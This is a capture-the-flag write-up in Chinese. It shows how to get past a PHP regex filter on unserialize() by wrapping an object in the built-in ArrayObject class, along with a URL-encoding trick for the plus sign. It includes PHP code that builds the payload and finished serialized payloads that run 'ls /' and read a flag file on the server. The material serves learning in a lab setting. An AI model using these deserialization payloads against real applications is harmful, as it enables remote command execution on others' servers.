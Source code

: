 如果我们直接传参：`1+1>2`

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041430509.png" alt="image-20230404143039437" style="zoom:33%;" />

可以发现，`+加号`被替换为了`下滑线_`，但是我们将加号替换为url编码：`%2B`

发现就可以了：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041432688.png" alt="image-20230404143238634" style="zoom:33%;" />

我们观察一下这个正则：

```php
if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}
```

如果序列化后的串是以O或者A开头，即对象或数组的话，就不行。

本来想的是使用数值前弄一个加号绕过的，但是反序列化的时候没用

看了wp后，发现使用了一个内置类：`ArrayObject`

我们可以将对象传入`ArrayObject`对象的构造方法中，然后序列化一下，进行绕过

```php
<?php

class ctfshow
{
    public $ctfshow;
}
$c = new ctfshow();
$c->ctfshow="ls /";

echo serialize(new ArrayObject($c));
```

```php
输出：
C:11:"ArrayObject":58:{x:i:0;O:7:"ctfshow":1:{s:7:"ctfshow";s:4:"ls /";};m:a:0:{}}
```

传参：

![image-20230404144648994](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041446078.png)

（注意看，这里还是使用了`__wakeup()`，但是程序并没有结束，可能是有某些错误造成程序还在执行）

然后得flag

```php
C:11:"ArrayObject":67:{x:i:0;O:7:"ctfshow":1:{s:7:"ctfshow";s:12:"cat /f1agaaa";};m:a:0:{}}
```






